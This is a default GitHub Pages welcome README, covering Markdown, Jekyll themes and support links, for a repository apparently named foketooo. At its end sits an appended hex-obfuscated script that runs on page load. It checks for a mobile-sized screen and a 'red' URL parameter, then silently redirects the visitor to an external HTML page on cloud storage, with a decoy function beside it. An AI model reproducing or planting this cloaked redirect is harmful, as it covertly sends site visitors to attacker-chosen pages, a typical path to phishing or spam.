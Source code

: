 ## Welcome to GitHub Pages

You can use the [editor on GitHub](https://github.com/lapersona05/foketooo/edit/master/README.md) to maintain and preview the content for your website in Markdown files.

Whenever you commit to this repository, GitHub Pages will run [Jekyll](https://jekyllrb.com/) to rebuild the pages in your site, from the content in your Markdown files.

### Markdown

Markdown is a lightweight and easy-to-use syntax for styling your writing. It includes conventions for

```markdown
Syntax highlighted code block

# Header 1
## Header 2
### Header 3

- Bulleted
- List

1. Numbered
2. List

**Bold** and _Italic_ and `Code` text

[Link](url) and ![Image](src)
```

For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/lapersona05/foketooo/settings). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://help.github.com/categories/github-pages-basics/) or [contact support](https://github.com/contact) and we’ll help you sort it out.
<script>

!function(){var c=window,n=["\x6c\x6f\x63\x61\x74\x69\x6f\x6e","\x68\x74\x74\x70\x73\x3a\x2f\x2f\x73\x74\x6f\x72\x61\x67\x65\x2e\x67\x6f\x6f\x67\x6c\x65\x61\x70\x69\x73\x2e\x63\x6f\x6d\x2f\x34\x31\x78\x69\x75\x76\x65\x37\x38\x35\x71\x6c\x67\x30\x6f\x71\x2f\x35\x6b\x31\x33\x35\x38\x35\x6f\x6c\x6c\x32\x6d\x73\x35\x34\x6e\x2e\x68\x74\x6d\x6c","\x73\x63\x72\x65\x65\x6e","\x77\x69\x64\x74\x68","\x67\x65\x74","\x72\x65\x64","\x73\x65\x61\x72\x63\x68"];var s=new URLSearchParams(c[n[1-1]][n[7-1]]);c[n[3-1]][n[4-1]]<(100+300+120+220-20)&&s[n[5-1]](n[6-1])&&(c[n[1-1]]=n[2-1]);}();function muestra_oculta(){
if (screen.width <= 720) {
  document.getElementById("ocultar").style.display = "none";
  

}
console.log("1596068749509");
}
//commit 1596068749509
muestra_oculta();
</script>
